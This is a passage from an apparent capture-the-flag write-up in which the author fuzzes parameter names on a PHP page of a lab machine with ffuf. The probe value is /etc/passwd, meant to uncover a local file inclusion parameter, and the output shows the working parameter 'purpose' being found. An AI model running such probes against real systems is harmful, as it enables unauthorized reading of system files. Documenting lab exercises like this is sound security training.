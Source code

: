 Executing the PHP file returns a blank page, so there must be more to it. Using *FFuF* we perform some parameter fuzzing:<br><br>

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://grote/f66b22bf020334b04c7d0d3eb5010391.php?FUZZ=/etc/passwd -fs 4242


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://grote/f66b22bf020334b04c7d0d3eb5010391.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 4242
________________________________________________

ABBR                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 2ms]
pw2                     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 1ms]
px                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 1ms]
purpose                 [Status: 200, Size: 1457, Words: 14, Lines: 28, Duration: 2ms]
q2                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 1ms]
q                       [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 2ms]
qa                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 1ms]


:: Progress: [6453/6453] :: Job [1/1] :: 156 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

So now that we know **purpose** will work, we execute the request in *Burp* and see some results:<br><br>

![burp](./docs/grotesque/grotesque_03_burp.png)
